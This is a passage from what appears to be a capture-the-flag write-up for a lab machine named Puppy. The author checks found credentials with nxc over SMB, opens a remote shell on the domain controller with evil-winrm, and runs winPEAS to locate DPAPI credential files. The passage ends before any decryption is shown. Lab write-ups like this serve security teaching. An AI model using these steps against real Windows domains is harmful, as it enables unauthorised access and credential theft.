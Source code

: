 ```xml
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

I try to connect with this account.

```
# nxc smb 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025!
```

These credentials worked:
`steph.cooper:ChefSteph2025!`

Also, I can connect to the DC with WinRM.

```bash
# evil-winrm -u steph.cooper -p 'ChefSteph2025!' -i 10.129.232.75

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami
puppy\steph.cooper
```

# Discovering and cracking DPAPI

`winpeas` reports that this user has DPAPI credential files.

```bash
checking for DPAPI Credential Files
È  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================

    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
```
